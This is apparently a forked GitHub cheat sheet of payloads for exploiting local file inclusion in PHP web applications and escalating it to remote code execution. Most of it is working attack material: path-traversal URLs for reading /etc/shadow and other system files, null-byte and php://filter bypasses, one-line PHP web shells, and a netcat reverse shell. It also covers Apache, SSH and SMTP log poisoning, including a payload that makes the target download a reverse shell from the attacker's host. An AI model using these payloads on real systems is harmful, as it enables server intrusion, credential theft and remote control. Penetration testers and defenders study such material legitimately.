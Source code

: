 Fork from https://github.com/RoqueNight/LFI---RCE-Cheat-Sheet
### Interesting files
```
/etc/issue
/etc/passwd
/etc/shadow
/etc/group
/etc/hosts
/etc/motd
/etc/mysql/my.cnf
```

### Vulnerable PHP Code (LFI)

```
<?php
$file = $_GET['file'];
 include('directory/' . $file)
?>
```
Example URL: http//10.10.10.10/index.php?file=../../../../../../../etc/passwd
    
```
<?php
if(isset($_GET['file']))
{
        $file=str_replace('../','',$_GET['file']);
        $file=str_replace('./','',$file);
        echo @file_get_contents('./'.$file);
}
?>
```
    
## Bypassing PHP via NULL Byte
http://example.com/index.php?page=../../../etc/passwd%00 // Only applies to PHP 5.3.4 and below
    
## Bypassing PHP via WRAPPERS
http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php
http://example.com/index.php?page=php://filter/convert.iconv.utf-8.utf-16/resource=index.php
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
http://example.com/index.php?page=pHp://FilTer/convert.base64-encode/resource=index.php
    
## PHP RCE
```
<?php system($_GET['c']); ?>
<?php system($_REQUEST['c']$); ?>

<?php
$os = shell_exec('id');
echo "<pre>$os</pre>";
?>

<?php
$os = shell_exec('nc 10.10.10.10 4444 -e /bin/bash');
?>
```

## Dangerous PHP Functions that can be abused for RCE
```
<?php
print_r(preg_grep("/^(system|exec|shell_exec|passthru|proc_open|popen|curl_exec|curl_multi_exec|parse_ini_file|show_source)$/", get_defined_functions(TRUE)["internal"]));
?>
```

## LFI to RCE via Apache Log File Poisoning (PHP)
```
Example URL: http//10.10.10.10/index.php?file=../../../../../../../var/log/apache2/access.log 

Payload: curl "http://192.168.8.108/" -H "User-Agent: <?php system(\$_GET['c']); ?>" 
Execute RCE: http//10.10.10.10/index.php?file=../../../../../../../var/log/apache2/access.log&c=id

OR
python -m SimpleHTTPServer 9000 
Payload: curl "http://<remote_ip>/" -H "User-Agent: <?php file_put_contents('shell.php',file_get_contents('http://<local_ip>:9000/shell-php-rev.php')) ?>" 
    file_put_contents('shell.php')                                // What it will be saved locally on the target
    file_get_contents('http://<local_ip>:9000/shell-php-rev.php') // Where is the shell on YOUR pc and WHAT is it called
Execute PHP Reverse Shell: http//10.10.10.10/shell.php
```

## LFI to RCE via SSH Log File Poisoning (PHP)
```
Example URL: http//10.10.10.10/index.php?file=../../../../../../../var/log/auth.log 

Payload: ssh <?php system($_GET['c']);?>@<target_ip>

Execute RCE: http//10.10.10.10/index.php?file=../../../../../../../var/log/auth.log&c=id
```
## LFI to RCE via process injection
```
http//10.10.10.10/index.php?file=../../../../../../../proc/sched_debug # schedule + PID
http//10.10.10.10/index.php?file=../../../../../../../proc/self/cmdline # current process
http//10.10.10.10/index.php?file=../../../../../../../proc/self/status # info
http//10.10.10.10/index.php?file=../../../../../../../proc/[0-9]*/fd/[0-9]*   (first number is the PID, second is the filedescriptor)
```


## LFI to RCE via SMTP Log File Poisoning (PHP)
Example URL: http//10.10.10.10/index.php?file=../../../../../../../var/log/mail.log 

telnet <target_ip> 25 // Replace with the target IP
MAIL FROM:<toor@gmail.com>
RCPT TO:<?php system($_GET['c']); ?>

Execute RCE: http//10.10.10.10/index.php?file=../../../../../../../var/log/mail.log&c=id